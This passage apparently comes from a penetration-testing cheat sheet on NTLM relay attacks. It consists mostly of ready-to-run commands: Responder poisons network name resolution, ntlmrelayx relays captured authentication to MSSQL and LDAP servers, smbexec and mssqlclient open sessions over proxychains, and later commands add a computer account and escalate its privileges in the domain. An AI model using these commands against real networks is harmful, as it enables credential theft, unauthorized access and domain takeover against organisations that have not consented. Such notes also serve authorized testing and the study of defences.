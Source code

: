 ```bash
proxychains -q smbexec.py ZENCORP/PETER@172.16.117.50 -no-pass
```

{% hint style="danger" %}
Relaying can be done using various protocols like SMB, HTTP, LDAP, SMB, MSSQL, IMAP, RPC or any other application protocol capable of transmitting NTLM authentication messages. \
\
As client: HTTP, IMAP, LDAP, MSSQL, RPC, SMBv/1/2/3, SMTP

As server: HTTP(s), RAW, SMBv/1/2/3, WCF
{% endhint %}

### <mark style="color:yellow;">NTLM Relay over MSSQL</mark>

```bash
# Setup socks proxy using mssql service
sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks

# Start poisoning
python3 Responder.py -I ens192

# Connect mssql
proxychains -q mssqlclient.py ZENCORP/nports@172.16.117.60 -windows-auth -no-pass

# Direct queries
sudo ntlmrelayx.py -t mssql://ZENCORP\\NPORTS@172.16.117.60 -smb2support -q "SELECT name FROM sys.databases;"
```

{% hint style="danger" %}
Use sudo su for `ntlmrelayx.py -tf target.txt -smb2support -socks`
{% endhint %}

{% hint style="info" %}
using the `mssql://`makes `ntlmrelayx` to relay `NTLM` over `mssql` to the relay target instead of SMB.
{% endhint %}

### <mark style="color:yellow;">NTLM Relay over LDAP</mark>

```bash
# Turn off HTTP and SMB
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder/Responder.conf

# Start responder
sudo python3 Responder/Responder.py -I ens192

# Start ldap NTLM relay
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump

# Add computer
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'

# Privilege escalation
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug
```
